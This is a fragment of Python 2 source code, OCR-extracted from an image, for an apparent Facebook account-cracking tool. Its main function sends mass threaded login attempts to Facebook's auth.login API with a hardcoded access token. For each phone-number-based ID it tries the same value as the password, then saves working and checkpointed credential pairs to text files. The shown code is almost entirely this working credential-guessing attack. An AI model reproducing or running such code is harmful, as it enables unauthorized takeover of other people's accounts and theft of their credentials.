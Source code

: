 '8':         os.system('xdg-open https://www.facebook.com/Abal.Not.Allow.ok.Bro')         time.sleep(1)         menu()     elif bch == '9':         os.system('xdg-open https://www.facebook.com/Abal.Not.Allow.ok.Bro')         time.sleep(1)         menu()     elif bch == '00':         exb()     else:         print '[!] Fill in correctly'         action()     print '\x1b[1;90m======================================================>>'     xxx = str(len(id))     psb('\x1b[1;92m[\xe2\x9c\x94] Total Numbers: ' + xxx)     time.sleep(0.5)     psb('\x1b[1;93m[\xe2\x9c\x93]\x1b[1;93m Please wait, process is running ...')     time.sleep(0.5)     psb('\x1b[1;96m[!] To Stop Process First Press CTRL Then Press z')     time.sleep(0.5)     print '\x1b[1;90m=======================================================>>'       def main(arg):         user = arg         try:             os.mkdir('save')         except OSError:             pass           try:             pass1 = user             data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=1&amp;email=' + k + c + user + '&amp;locale=en_US&amp;password=' + c + pass1 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f98fb61fcd7aa0c44f58f522efm')             q = json.load(data)             if 'access_token' in q:                 print '\x1b[1;92m[Ok-Tutul-SUCCESSFUL]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n' + '\x1b[1;92m  [Login Now]\n'                 okb = open('save/successfull.txt', 'a')                 okb.write(k + c + user + '|' + c + pass1 + '\n')                 okb.close()                 oks.append(c + user + c + pass1)             elif 'www.facebook.com' in q['error_msg']:                 print '\x1b[1;96m[Cp-Tutul-CHECKPOINT] \x1b[1;97m' + k + c + user + ' | ' + pass1 + '\x1b[1;96m  [Login After 10 Days]\n'                 cps = open('save/checkpoint.txt', 'a')                 cps.write(k + c + user + '|' + c + pass1 + '\n')                 cps.close()                 cpb.append(c + user + c + pass1)         except:             pass       p = ThreadPool(30)     p.map(main, id)     print 50 * '-'     print '[\xe2\x9c\x93] Process Has Been Completed....'     print '[\xe2\x9c\x93] Total OK/CP : ' + str(len(oks)) + '/' + str(len(cpb))     print '[\xe2\x9c\x93] CP File Has Been Saved : save/checkpoint.txt'     raw_input('\n[Press Enter To Go Back]')     os.system('python2 sh11.py')     if __name__ == '__main__':     menu()    
